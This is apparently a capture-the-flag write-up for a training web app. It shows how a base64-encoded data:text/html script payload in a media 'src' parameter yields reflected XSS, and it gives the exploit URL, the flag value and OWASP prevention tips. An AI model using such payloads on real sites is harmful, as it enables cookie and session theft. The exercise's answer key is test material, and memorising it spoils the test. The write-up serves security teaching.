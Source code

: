 # XSS MEDIAS REQUEST

## Flag
```
928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

## Discovery
On the page http://{IP_ADDRESS}/

The NSA image (the one with headphone) leads to http://{IP_ADDRESS}/?page=media&src=nsa \
You can change nsa to base64 script
```diff
"data:text/html;base64," + base64("<script>alert("wtf");</script>")
> data:text/html;base64,PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+
```
Finaly go to : \
http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+ \
**This work because the request response accept text/html**

## Use
> the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site

## Prevention
> - Never Insert Untrusted Data Except in Allowed Locations
> - HTML Escape Before Inserting Untrusted Data into HTML Element Content
> - Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes
> - JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
> - CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
> - URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
> - Sanitize HTML Markup with a Library Designed for the Job
> - Avoid JavaScript URL's

## Documentation
- [owasp - XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
- [owasp - prevent XSS breaches](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [base64](https://www.base64decode.org/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly)